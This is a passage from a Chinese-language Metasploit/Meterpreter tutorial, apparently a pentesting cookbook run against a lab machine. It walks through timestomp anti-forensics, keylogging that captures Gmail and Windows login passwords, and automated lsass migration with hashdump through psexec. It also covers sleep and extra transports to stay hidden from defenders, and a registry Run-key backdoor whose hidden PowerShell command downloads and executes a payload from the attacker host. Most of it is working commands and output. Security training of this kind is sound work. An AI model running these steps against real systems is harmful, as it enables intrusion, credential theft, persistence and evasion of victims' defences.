Usage: execute -f file [options]
```

这会在远程机器上执行命令。以下为选项：

- -H: 以隐藏方式创建进程
- -a <opt>: 传递给命令的参数
- -c: 通道化 I/O（交互所需）
- -d <opt>: 使用 -m 时启动的虚拟可执行文件
- -f <opt>: 要运行的可执行命令
- -h: 帮助菜单
- -i: 创建进程后与其交互
- -k: 在 Meterpreter 的当前桌面上执行进程
- -m: 从内存执行
- -s <opt>: 以会话用户身份在给定会话中执行进程
- -t: 使用当前模拟的线程令牌执行进程

您可以看到 execute 命令可用的各种参数。让我们在设置多个通道时使用其中一些参数。

### 如何操作...

1. 要开始创建通道，我们将使用 execute 命令的 -f 操作符：

```
meterpreter > execute -f notepad.exe -c
Process 3128 created.
Channel 1 created.
```

注意不同参数的使用。-f 参数用于设置可执行命令，-c 操作符用于设置通道化 I/O。

2. 现在，我们可以再次运行 execute 命令以在不终止当前通道的情况下启动另一个通道：

```
meterpreter > execute -f cmd.exe -c
Process 3348 created.
Channel 2 created.
meterpreter > execute -f mspaint.exe -c
Process 3359 created.
Channel 3 created.
```

我们现在在受害者机器上同时运行了三个不同的通道。要列出可用通道，我们可以使用 channel -l 命令。如果我们想在通道上发送一些数据或写入内容，可以使用 write 命令后跟我们要写入的通道 ID。

3. 让我们在其中一个活动通道中写入一条消息：

```
meterpreter > write 1
Enter data followed by a "." on an empty line:

Metasploit!
.
[*] Wrote 12 bytes to channel 1.
```

执行 write 命令并加上通道 ID 后提示我们输入数据后跟一个点。我们成功在通道上写入了 Metasploit!。

4. 为了读取任何通道的数据，我们可以使用 read 命令后跟通道 ID。此外，如果我们想与任何通道交互，可以使用 channel 命令后跟 -i 和通道 ID：

```
meterpreter > channel -i 2
Interacting with channel 2...

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.
All rights reserved.

C:\>^Z
```

```
Background channel 2? [y/N] y
meterpreter >
```

如您所见，我们的通道 2 是一个命令提示符通道，因此通过使用 channel 命令加上 -i 后跟通道号，我们直接进入命令提示符模式，从那里可以执行系统命令。

5. 要后台化一个通道，请使用 Ctrl + Z。我们可以轻松地使用 channel 命令在通道之间切换。为了结束一个通道，我们可以使用 channel 命令后跟 -c 和通道 ID：

```
meterpreter > channel -c 2
[*] Closed channel 2.
```

本教程展示了使用多个通道的强大功能。它还展示了同时管理它们并在不同通道之间切换是多么容易。当我们在目标机器上运行多个服务时，使用通道变得很重要。

### 原理...

Metasploit 为每条消息标记一个单独的通道 ID，这有助于它识别应执行特定命令的通道上下文。如前所述，Meterpreter 中的通信过程遵循 TLV 协议，这提供了使用特定通道 ID 标记不同消息的灵活性，以便提供多通道通信支持。

## Meterpreter 反取证

在上一教程中，我们阅读了有关一些重要且有用的 Meterpreter 文件系统命令，这些命令可用于在目标机器上执行各种任务。Meterpreter 包含另一个有趣的命令，称为 timestomp。该命令用于更改文件的 Modified-Accessed-Created-Entry (MACE) 属性。属性值表示 MACE 活动在文件内发生的日期和时间。使用 timestomp 命令，我们可以更改这些值。


## 准备工作

在开始操作之前，你可能会有一个关键问题。为什么要更改 MACE 值？黑客通常使用更改 MACE 值的方法，让目标用户认为该文件已在系统上存在很长时间且未被触碰或修改。在可疑活动发生时，管理员可能会检查最近修改的文件，以确定是否有任何文件被修改或访问。因此，使用这种技术，文件不会出现在最近访问或修改的项目列表中。尽管还有其他方法可以判断文件属性是否被修改，但这种技术仍然很有用。

让我们从目标机器上挑选一个文件并更改其 MACE 属性。以下截图显示了使用 timestomp 之前文件的各种 MACE 值：



现在，我们将继续更改各种 MACE 值。让我们从常用的 timestomp -h 命令开始，该命令用于列出各种可用选项。我们可以使用 -v 操作符来列出 MACE 属性的值：

```
meterpreter > timestomp C:\flag.txt -v
[*] Showing MACE attributes for C:\flag.txt
Modified  : 2017-10-30 12:24:57 -0400
Accessed  : 2017-10-30 12:24:57 -0400
Created   : 2017-10-30 12:24:57 -0400
Entry Modified: 2017-10-30 12:24:57 -0400
```

## 如何操作...

我们将首先更改文件的创建时间。请注意传递给 timestomp 命令的各种参数：

```
meterpreter > timestomp C:\flag.txt -c "05/25/2017 01:01:01"
[*] Setting specific MACE attributes on C:\flag.txt
```

## 工作原理...

-c 操作符用于更改文件的创建时间。类似地，我们可以使用 -m 和 -a 操作符来更改文件的修改时间和最后访问属性：

```
meterpreter > timestomp C:\flag.txt -m "05/25/2017 01:01:01"
[*] Setting specific MACE attributes on C:\flag.txt
meterpreter > timestomp C:\flag.txt -a "05/25/2017 01:01:01"
[*] Setting specific MACE attributes on C:\flag.txt
```

更改属性后，我们可以再次使用 -v 操作符来检查并验证命令是否成功执行。让我们继续检查文件属性：

```
meterpreter > timestomp C:\flag.txt -v
[*] Showing MACE attributes for C:\flag.txt
Modified  : 2017-05-25 02:01:01 -0400
Accessed  : 2017-05-25 02:01:01 -0400
Created   : 2017-05-25 02:01:01 -0400
Entry Modified: 2017-10-30 12:24:57 -0400
```

我们已成功修改了文件的文件 MACE 属性。现在，该文件可以很容易地从最近修改或最近访问的文件列表中隐藏起来。

另外，我们也可以使用 -z 操作符一次性更改全部四个 MACE 值。我们无需为每个值分别传递命令。但是，-z 操作符会为全部四个 MACE 属性分配相同的值，这在实际中是不可能的。创建时间与访问时间之间必须存在一定的时间差。因此，应避免使用 -z 操作符。

## 还有更多...

Metasploit 在其研究项目中创建了一组名为 **Metasploit 反取证调查工具包 (MAFIA)** 的工具，包括：

- Timestomp
- Slacker
- Transmogrify
- SAM Juicer

由于这些工具已超过 5 年未更新，因此它们不再与现代操作系统兼容。

## getdesktop 和键盘记录嗅探

在本教程中，我们将处理与桌面和键盘记录嗅探相关的一些 `stdapi` 用户界面命令。捕获击键取决于当前活动的桌面，因此了解如何通过在不同桌面活动会话中运行的进程之间切换来嗅探不同的击键至关重要。让我们继续本教程以更好地理解这一点。

### 准备工作

- `enumdesktops` 命令将列出所有可访问的桌面和窗口站：

```
meterpreter > enumdesktops
Enumerating all accessible desktops
```

| 会话 | 站点 | 名称 |
|---|---|---|
| 0 | WinSta0 | Default |
| 0 | WinSta0 | Disconnect |
| 0 | WinSta0 | Winlogon |

这里，你可以看到所有可用的桌面站都与 session 0 相关联。我们稍后会详细说明 session 0 的含义。

- getdesktop 命令返回当前 Meterpreter 会话正在工作的桌面信息：

```
meterpreter > getdesktop
Session 0\S\D
```

你可以将 getdesktop 命令的输出与 enumdesktops 关联起来，以更深入地了解我们当前正在工作的桌面站。

- setdesktop 命令用于将当前 Meterpreter 桌面更改为另一个可用的桌面站
- keyscan_start 命令用于在当前活动桌面站中启动键盘记录嗅探器
- keyscan_dump 命令转储活动 Meterpreter 桌面会话的已记录击键

现在，让我们分析这些命令在实时场景中的工作方式，以及如何通过不同的桌面站嗅探击键。

### 如何操作...

在继续本教程之前，我们将先了解一个关于 Windows 桌面的重要概念。

Windows 桌面分为不同的会话，以便定义我们可以与 Windows 机器交互的方式。Session 0 代表控制台。其他会话，如 Session 1、Session 2 等，代表远程桌面会话。

每个 Windows 会话可以由不同的站组成，其中 WinSta0 是唯一的交互式站，意味着它是用户唯一可以交互的站。WinSta0 由三个不同的桌面组成，即 Default、Disconnect 和 Winlogon。桌面是一个逻辑显示表面，包含用户界面对象，如窗口、菜单和钩子。Default 桌面与我们在桌面上执行的所有应用程序和任务相关联；Disconnect 桌面涉及屏幕保护程序锁定桌面，而 Winlogon 桌面则与 Windows 登录屏幕相关。

这里需要注意的是，每个桌面都有自己的键盘缓冲区。因此，如果你需要从 Default 桌面嗅探击键，你必须确保当前 Meterpreter 活动浏览器设置为 Session 0/WinSta0/Default。如果需要嗅探登录密码，你必须将活动桌面更改为 Session 0/WinSta0/Winlogon。

- 1. 让我们使用 getdesktop 命令检查当前桌面：

```
meterpreter > getdesktop
Session 0\S\D
```

如你所见，我们不在 WinSta0 站中，而 WinSta0 是唯一的交互式桌面站。因此，如果在此运行键盘捕获，将不会返回任何结果。

- 2. 让我们将桌面更改为 WinSta0\Default：

```
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > getdesktop
Session 0\WinSta0\Default
```

前面的命令行显示，我们已通过使用 setdesktop 命令移动到交互式 Windows 桌面站。

- 3. 因此，现在我们可以运行键盘记录嗅探器来捕获目标机器上用户按下的键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
gmail.com<CR>
demouser<Right Shift>@gmail.com<CR>
<Right Shift>P4ssw0rd<CR>
```

查看转储的击键，你可以清楚地识别出目标用户访问了 gmail.com 并输入了他的/她的凭据以登录。

如果想嗅探 Windows 登录密码呢？显然，你可以使用 setdesktop 命令将活动桌面切换到 WinSta0\Winlogon，但这里我们也会讨论另一种方法。

- 4. 我们可以迁移到在 Windows 登录期间运行的进程。让我们执行 ps 命令来检查正在运行的进程：

```
meterpreter > ps
...
4336 5664 winlogon.exe x64 1 NT AUTHORITY\SYSTEM
C:\Windows\system32\winlogon.exe
...
```

你会发现 winlogon.exe 作为一个进程正在运行，并具有进程 ID。在本例中，winlogon.exe 的进程 ID (PID) 为 4336。

- 5. 现在，让我们迁移到此 PID 并再次检查活动桌面：

```
meterpreter > migrate 4336
[*] Migrating from 352 to 4336...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon
```

- 6. 你可以看到我们的活动桌面已更改为 WinSta0\Winlogon。现在，我们可以运行 keyscan_start 命令开始在 Windows 登录屏幕上嗅探击键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```


- 7. 要捕获登录密码，请登录到 Metasploitable 3 机器，然后使用 `keyscan_dump` Meterpreter 命令转储按键记录：

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<LAlt><^Delete>vagrant<CR>
```

- 8. 同样，我们可以通过迁移到在默认桌面上运行的任何进程来返回到默认桌面；例如，`explorer.exe`：

```
meterpreter > migrate -N explorer.exe
[*] Migrating from 5736 to 5168...
[*] Migration completed successfully.
```

你可能已经注意到，为嗅探按键而迁移到不同的进程和桌面环境的重要性。通常，如果不查看当前活动桌面就直接运行 keyscan，人们不会得到任何结果。这是因为他们渗透的进程可能属于不同的会话或站。因此，在处理按键嗅探时，请牢记这一概念。

## 还有更多...

一旦我们在 Meterpreter 会话中，你就可以使用 `screenshot` 命令轻松截取一些屏幕截图：

```
meterpreter > screenshot
Screenshot saved to: /root/jUEOMRHK.jpeg
```

要显示捕获的屏幕截图，你可以在新的终端窗口中使用 eog 命令：

```
root@kali:~# eog jUEOMRHK.jpeg
```



## 使用 scraper Meterpreter 脚本

到目前为止，我们已经学习了几个 Meterpreter 命令。在这里，我们将看一个重要的 Meterpreter 脚本，它可以帮助我们更深入地探索目标。本章广泛涵盖了 Meterpreter 脚本，因此在这里，我们将只关注使用该脚本。渗透测试可能需要花费大量时间来挖掘目标上的信息。因此，为渗透测试人员保留有用信息的地方性备份非常方便，这样即使目标宕机，他们仍然有信息可供工作。它也使与其他测试人员共享信息变得容易。Scraper 为我们完成了这项任务。

## 准备工作

scraper Meterpreter 脚本可以挖掘出有关被攻破目标的大量信息，例如注册表信息、密码哈希和网络信息，并将其存储在测试人员的本地机器上。

为了使用 Meterpreter 在目标上执行 Ruby 脚本，我们可以使用 run 命令。让我们继续分析如何将信息下载到本地。

## 如何操作...

脚本在执行后会自动完成所有操作。它会在 /root/.msf4/logs/scripts/scraper/ 下创建一个目录，所有文件都保存在那里：

```
meterpreter > run scraper
[*] New session on 192.168.216.10:445...
[*] Gathering basic system information...
[*] Dumping password hashes...
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU
...
(C:\Users\vagrant\AppData\Local\Temp\2\wBrggef1.reg)
[*] Cleaning HKCR
[*] Exporting HKU
[*] Downloading HKU
(C:\Users\vagrant\AppData\Local\Temp\2\FTmZDWyo.reg)
[*] Cleaning HKU
[*] Completed processing on 192.168.216.10:445...
```

脚本会自动将信息下载并保存在目标文件夹中。让我们看一下源代码，分析是否可以根据我们的需要进行一些更改。

## 其工作原理...

scraper.rb 的源代码位于 /usr/share/metasploit-framework/scripts/meterpreter 下。

Ruby 编程经验可以帮助你编辑脚本以添加自己的功能。我们可以通过编辑以下行来更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory,
'scripts','scraper', host + "_" +
Time.now.strftime("%Y%m%d.%M%S")+sprintf("% .5d",
rand(100000)) )
```

假设你还想获得可用进程列表的结果；你只需在程序主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w")
do |fd|
fd.puts(m_exec(client, "tasklist"))
end
```

通过使用一点 Ruby 语言和可重用的代码，你可以轻松修改代码以满足你的需求。

## 使用 winenum 抓取系统

Windows Local Enumeration (WinEnum) 脚本检索有关系统的各种信息，包括环境变量、网络接口、路由、用户账户等等。

## 如何操作...

- 1. winenum 脚本将在目标机器上运行多个命令，例如 arp、net、netstat、netsh 和 wmic 等命令，并将结果存储在我们的本地系统上：

```
meterpreter > run winenum
[*] Running Windows Local Enumeration
Meterpreter Script
[*] New session on 192.168.216.10:445...
[*] Saving general report to
/root/.msf4/logs/scripts/winenum/VAGRANT-2008R2_20171118.2800/
VAGRANT-2008R2_20171118.2800.txt
[*] Output of each individual command is saved to
/root/.msf4/logs/scripts/winenum/
VAGRANT-2008R2_20171118.2800
...
```

```
[*] Getting Tokens...
[*] All tokens have been processed
[*] Done!
meterpreter >
```

- 2. winenum 脚本的输出存储在 /root/.msf4/logs/scripts/winenum/ 文件夹中：

```
root@kali:~# ls /root/.msf4/logs/scripts/
winenum/VAGRANT-2008R2_20171118.2800/VAGRANT-2008R2_20171118.2800.txt
arp__a.txt
cmd_exe__c_set.txt
cscript__nologo_winrm_get_winrm_config.txt
gpresult__SCOPE_COMPUTER__Z.txt
gpresult__SCOPE_USER__Z.txt
...
servermanagercmd_exe__q.txt
tasklist__svc.txt
tokens.txt
root@kali:~#
```

## 使用 AutoRunScript 进行自动化

在渗透测试期间，你希望尽可能自动化，以便专注于需要人工交互的操作。为了简化我们的任务，Metasploit 允许你使用 AUTORUNSCRIPT 指定在收到新的 Meterpreter 会话后会发生什么。

## 如何操作...

- 1. 首先，我们需要创建一个包含要执行的命令的文件。在此示例中，我们将迁移到 lsass.exe 进程并转储 Windows 哈希：

```
root@kali:~# cat autoruncmds.rc
migrate -N lsass.exe
hashdump
```

- 2. 接下来，我们将使用 exploit/windows/smb/psexec 漏洞利用模块来攻破目标，并使用 AUTORUNSCRIPT 指定在收到新会话后立即要执行的命令：

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf exploit(psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf exploit(psexec) > set PAYLOAD
windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(psexec) > set AUTORUNSCRIPT
multi_console_command -r /root/autoruncmds.rc
AUTORUNSCRIPT => multi_console_command -r /root/autoruncmds.rc
msf exploit(psexec) >
```

- 3. 通过设置 AUTORUNSCRIPT，我们可以在会话创建时自动运行脚本。在此示例中，我们将使用 multi_console_command 脚本，它允许我们指定要运行的多个命令。使用 -c 后跟要执行的命令，以双引号括起来并用逗号分隔，或者像我们的示例一样，使用 -r 和包含每行一个命令的文本文件的路径。现在一切准备就绪，我们只需使用 exploit 命令启动攻击即可：

```
meterpreter >
[*] Session ID 1 (192.168.216.5:4444 -> 192.168.216.10:49665) processing AutoRunScript
'multi_console_command -r /root/autoruncmds.rc'
[*] Running Command List ...
[*] Running command migrate -N lsass.exe
[*] Migrating from 576 to 456...
[*] Migration completed successfully.
[*] Running command hashdump
Administrator:500:aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
anakin_skywalker::1011:aad3b435b51404eea ad3b435b51404ee:c706f83a7b17a0230e55cde2f3de94fa:::
artoo_detoo:1007:aad3b435b51404eea ad3b435b51404ee:fac6aada8b7afc418b3afea63b7577b4:::
ben_kenobi:1009:aad3b435b51404eea ad3b435b51404ee
```

太棒了！从输出来看，我们在没有任何交互的情况下获得了新会话，迁移到 lsass.exe 进程并转储了 Windows 哈希。

## Meterpreter 资源脚本

与 msfconsole 类似，Meterpreter 也支持资源脚本，允许我们自动化 Meterpreter 命令的使用。

## 如何操作...

- 1. 在 Meterpreter 会话中使用资源脚本之前，我们首先需要创建将放置脚本的目录结构，为此我们将使用带 -p 选项的 mkdir 命令，以便它创建所有父目录：

```
root@kali:~# mkdir -p ~/.msf4/scripts/resource
/meterpreter/
```

- 2. 现在 Meterpreter 资源脚本目录已创建，我们可以开始编写 Meterpreter 资源脚本。对于第一个脚本，我们将从一些获取系统信息的基本命令开始。使用你喜欢的编辑器创建以下脚本：

```
root@kali:~# cat ~/.msf4/scripts/resource/
meterpreter/systeminfo.rc
sysinfo
getuid
getpid
getwd
root@kali:~#
```

- 3. 让我们在 Meterpreter 会话中尝试资源脚本，看看它是如何工作的：

```
meterpreter > resource systeminfo.rc
[*] Processing /root/.msf4/scripts/resource
/meterpreter/systeminfo.rc for ERB directives.
resource (/root/.msf4/scripts/resource
/meterpreter/systeminfo.rc)> sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2 (Build 7601, Service Pack 1).
```


```
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x64/windows
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getuid
Server username: NT AUTHORITY\SYSTEM
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getpid
Current pid: 5524
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getwd
C:\Windows\system32
meterpreter >
```

4. 虽然有用，但大多数时候，我们希望自动化更重要的任务，因此让我们自动化进程迁移、转储系统哈希，并截取目标桌面的屏幕截图：

```
root@kali:~# cat ~/.msf4/scripts/resource/meterpreter/automate.rc
migrate -N lsass.exe
hashdump
screenshot
root@kali:~#
```

5. 如你所见，这在渗透测试过程中可以证明非常有用：

```
meterpreter > resource automate.rc
[*] Processing /root/.msf4/scripts/resource/meterpreter/automate.rc for ERB directives.
resource (/root/.msf4/scripts/resource/meterpreter/automate.rc)> migrate -N lsass.exe
[*] Migrating from 3636 to 464...
[*] Migration completed successfully.
resource (/root/.msf4/scripts/resource/meterpreter/automate.rc)> hashdump
Administrator:500:aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
...snip...
vagrant:1000:aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
resource (/root/.msf4/scripts/resource/meterpreter/automate.rc)> screenshot
Screenshot saved to: /root/ThmkKhav.jpeg
meterpreter >
```

6. 除了常规命令之外，Meterpreter 还支持处理 <ruby> 指令，这意味着我们可以在资源脚本中使用 Ruby 的全部功能：

```
cat ~/.msf4/scripts/resource/meterpreter/ruby.rc
<ruby>
$stderr.puts("Ruby is awesome!")
$stderr.puts("session.platform: #{session.platform}, framework: #{framework}")
</ruby>
root@kali:~#
```

7. 在此示例中，我们只是打印会话运行的平台以及框架，但你可以想象所有的可能性：

```
meterpreter > resource ruby.rc
[*] Processing /root/.msf4/scripts/resource/meterpreter/ruby.rc for ERB directives.
[*] resource (/root/.msf4/scripts/resource/meterpreter/ruby.rc)> Ruby Code (112 bytes)
Ruby is awesome!
session.platform: windows, framework:
#<Msf::Framework:0x005555e533c4b8>
meterpreter >
```

## Meterpreter 超时控制

Meterpreter 超时控制允许我们控制 Meterpreter 会话中的超时行为。控制超时允许我们更改噪音水平和其他通信功能，例如 Meterpreter 会话的持续时间。

### 如何操作...

- 1. get_timeouts Meterpreter 命令显示当前的超时配置：

```
meterpreter > get_timeouts
Session Expiry : @ 2017-11-19 05:59:46
Comm Timeout : 300 seconds
Retry Total Time: 3600 seconds
Retry Wait Time : 10 seconds
```

Session Expiry 指定分配给会话的超时期限，之后会话将被终止。如果网络相关问题阻止数据在两个端点之间传输，但不会导致套接字完全断开，则 Comm Timeout 命令允许你指定 Meterpreter 在断开连接或尝试重新连接之前等待通信的时间，默认情况下为 5 分钟。Retry Total Time 是 Meterpreter 尝试通过传输向 Metasploit 重试通信的总时间，默认情况下设置为 3600 秒（1 小时）。Retry Wait Time 指的是在尝试建立连接之前的等待时间。

- 2. 使用 `set_timeouts` 命令，我们可以更改当前的超时配置。要更改 Comm Timeout，可以使用 `-c` 标志后跟秒为单位的时间：

```
meterpreter > set_timeouts -c 600
Session Expiry : @ 2017-11-19 05:59:46
Comm Timeout : 600 seconds
Retry Total Time: 3600 seconds
Retry Wait Time : 10 seconds
```

## Meterpreter 休眠控制

在渗透测试期间，有时需要让 Meterpreter 会话在一段时间内保持安静；例如，如果你认为安全团队已经察觉到你并试图阻止你的攻击。因此，Meterpreter 有一个简单但非常有用的命令叫做 sleep。

### 如何操作...

- 1. sleep 命令正如你所期望的那样工作；它使当前 Meterpreter 会话在指定的时间段内进入休眠，并在时间到期后再次唤醒。因此，让我们让会话休眠 10 秒。在使用 sleep 命令之前，我们需要设置一个 handler，它监听新的 Meterpreter 连接：

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
```

```
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(handler) >
```

- 2. 现在我们有了监听器，可以使用 sleep 命令后跟我们希望会话休眠的时间段：

```
meterpreter > sleep 10
[*] Telling the target instance to sleep for 10 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 192.168.216.10 - Meterpreter session 1 closed.
Reason: User exit
msf exploit(handler) >
```

- 3. 10 秒后，我们将获得一个新的 Meterpreter 会话，从而再次访问系统，并且希望不被安全团队察觉：

```
msf exploit(handler) >
[*] Sending stage (205379 bytes) to 192.168.216.10
[*] Meterpreter session 2 opened (192.168.216.5:4444 -> 192.168.216.10:50715) at 2017-11-12 06:43:02 -0500
```

## Meterpreter 传输

transport 命令允许你为当前会话添加新的传输，其中 reverse_tcp 和 reverse_https 是最受欢迎的。Meterpreter 为你提供了其他一些可供选择的传输方式。

### 如何操作...

- 1. 在开始添加新的传输之前，我们将使用带有 `-h` 标志的 `transport` 命令来显示该命令的帮助菜单：

```
meterpreter >
meterpreter > transport -h
Usage: transport <list|change|add|next|prev|remove> [options]

  list: list the currently active transports.
  add: add a new transport to the transport list.
  change: same as add, but changes directly to the added entry.
  next: jump to the next transport in the list (no options).
  prev: jump to the previous transport in the list (no options).
  remove: remove an existing, non-active transport.

OPTIONS:

  -A <opt> User agent for HTTP/S transports (optional)
  -B <opt> Proxy type for HTTP/S transports (optional: http, socks; default: http)
  -C <opt> Comms timeout (seconds) (default: same as current session)
  -H <opt> Proxy host for HTTP/S transports (optional)
  -N <opt> Proxy password for HTTP/S transports (optional)
  -P <opt> Proxy port for HTTP/S transports (optional)
  -T <opt> Retry total time (seconds) (default: same as current session)
  -U <opt> Proxy username for HTTP/S transports (optional)
  -W <opt> Retry wait time (seconds) (default: same as current session)
  -X <opt> Expiration timeout (seconds) (default: same as current session)
  -c <opt> SSL certificate path for https transport verification (optional)
  -h      Help menu
  -i <opt> Specify transport by index (currently supported: remove)
  -l <opt> LHOST parameter (for reverse transports)
  -p <opt> LPORT parameter
  -t <opt> Transport type: reverse_tcp, reverse_http, reverse_https, bind_tcp
  -u <opt> Local URI for HTTP/S transports (used when adding/changing transports with a custom LURI)
  -v      Show the verbose format of the transport list

meterpreter >
```

- 2. 要列出当前活动的传输，我们可以使用带有 `list` 选项的 `transport` 命令：

```
meterpreter > transport list
Session Expiry : @ 2017-11-23 16:11:07
```

| ID | 当前 | URL | 通讯超时 | 重试总计 | 重试等待 |
|----|------|-----|-----------|-------------|------------|
| 1 | * | tcp://192.168.216.5:4444 | 300 | 3600 | 10 |


3. 添加新的传输机制可以让 Metasploit 更长时间保持会话活跃。要添加新的传输机制，我们可以使用 transport 命令，后跟正在使用的传输机制：

```
meterpreter > transport add -t reverse_http -l 192.168.216.5 -p 8080 -to 500 -rt 30000 -rw 5000
[*] Adding new transport ...
[+] Successfully added reverse_http transport.
meterpreter >
```

4. 我们使用 -t 选项来指定要添加的传输类型。可用的类型有 bind_tcp、reverse_tcp、reverse_http 和 reverse_https：

- The -l option is used to set the LHOST
- The -p option is used for the LPORT
- The -to option is used to specify the communication timeout in seconds
- The -rt option is used to set the retry total parameter in seconds, and should be higher than -rw
- The -rw option is used to set the retry wait parameter in seconds, and should be less than -rt

5. 现在，当我们列出可用的传输机制时，应该能看到我们新创建的 reverse_http 传输机制：

```
meterpreter > transport list
Session Expiry : @ 2017-11-25 12:05:54

ID  Curr  URL          Comms  T/O  Retry Total  Retry Wait
--  ----  -----------  -----  ---  -----------  ----------
1   http://192.168.216.5:8080/8P8a9wEtFOLZsdiwg6H7kwzzyj7QnFNN2_cDFwbfyweSR-V3ufLjkz4GofSWJDDaeZonEslz6DLcooyTrQqx502GYiWIN4_Clb3TdqrR92nUaSU-pCEgiScRhrmUnfN/ 500 30000 500
2   *   tcp://192.168.216.5:4444 300 3600 10

meterpreter >
```

6. 要更改传输机制，我们首先启动通用有效载荷处理程序，并将有效载荷设置为传输机制中使用的相同有效载荷：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(handler) > set LPORT 8080
LPORT => 8080
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] Started HTTP reverse handler on
http://0.0.0.0:8080/
[*] Starting the payload handler...
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport,
killing current session.

[*] 192.168.216.10 - Meterpreter session 1 closed.
Reason: User exit

[*] 192.168.216.10:49352 (UUID:
f0ff1af7012d14e2/x86=1/windows=1/2017-11-18T12:05:54Z)
Attaching orphaned/stageless session ...
[*] Meterpreter session
2 opened (192.168.216.5:8080 -> 192.168.216.10:49352)
at 2017-11-18 12:24:33 +0000

msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

从输出中可以看到，我们已成功使用 transport next 命令切换到列表中的下一个传输机制。要切换到上一个传输机制，只需使用 transport prev 命令即可。

## 与注册表交互

注册表是系统定义的数据库，用于存储配置系统供一个或多个用户、应用程序和硬件设备所需的信息。

### 准备工作

注册表中存储的数据因 Microsoft Windows 版本而异，因此在与目标系统交互时需要考虑这一点。

通过查看注册表，您可以找到已使用过的文件、使用 Internet Explorer 访问过的网站、使用的程序、使用的 USB 设备等等。

### 如何操作...

- 1. 要与目标机器的注册表交互，我们将使用 reg 命令，但在开始使用它之前，让我们先查看可用选项：

```
meterpreter > reg
Usage: reg [command] [options]
```

与目标机器的注册表交互。以下是选项：

- -d <opt>: The data to store in the registry value
- -h: Help menu
- -k <opt>: The registry key path (for example, HKLM\Software\Foo)
- -r <opt>: The remote machine name to connect to (with current process credentials)
- -t <opt>: The registry value type (for example, REG_SZ)
- -v <opt>: The registry value name (for example, Stuff)
- -w: Sets the KEY_WOW64 flag and valid values (32/64)

以下是命令：

- enumkey: Enumerates the supplied registry key (-k <key>)
- createkey: Creates the supplied registry key (-k <key>)
- deletekey: Deletes the supplied registry key (-k <key>)
- queryclass: Queries the class of the supplied key (-k <key>)
- setval: Sets a registry value (-k <key> -v <val> -d <data>)
- deleteval: Deletes the supplied registry value (`-k <key> -v <val>`)
- queryval: Queries the data contents of a value (`-k <key> -v <val>`)

正如您所见，reg 命令允许我们完全控制注册表，这表明掌握注册表可以获得的强大能力。

作为示例，在本教程中，我们将使用 reg 命令通过 Script Web Delivery 漏洞利用模块创建注册表后门。

首先，我们需要设置一个 Web 服务器来提供我们的 PowerShell 有效载荷：

```
msf exploit(web_delivery) > set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf exploit(web_delivery) > set URIPATH /
URIPATH => /
msf exploit(web_delivery) > show targets

Exploit targets:

Id Name
-- ----
0 Python
1 PHP
2 PSH
3 Regsvr32
4 PSH (Binary)

msf exploit(web_delivery) > set TARGET 2
TARGET => 2
msf exploit(web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(web_delivery) > exploit
...

msf exploit(web_delivery) >
```

- 2. 接下来，我们将使用 reg 命令创建一个新的注册表键，该键将在用户登录机器时运行 PowerShell shell 有效载荷：

```
meterpreter > reg setval -k
HKLM\\software\\microsoft\\windows\\currentversion
\\run -v Power -d "powershell.exe -nop -w hidden
-c $R=new-object
net.webclient;$R.proxy=[Net.WebRequest]::GetSystemWebProxy();
$R.Proxy.Credentials=[Net.CredentialCache]::
DefaultCredentials;IEX
$R.downloadstring('http://192.168.216.5:8080/');"
Successfully set Power of REG_SZ.
meterpreter >
```

- 3. 要枚举注册表键，我们也可以使用 reg 命令以及 enumkey 选项，后跟 -k 和我们要枚举的键：

```
meterpreter > reg enumkey -k
HKLM\\software\\microsoft\\windows\\currentversion
\\run
Enumerating: HKLM\software\microsoft\windows
\currentversion\run

Values (2):

VBoxTray
Power
```

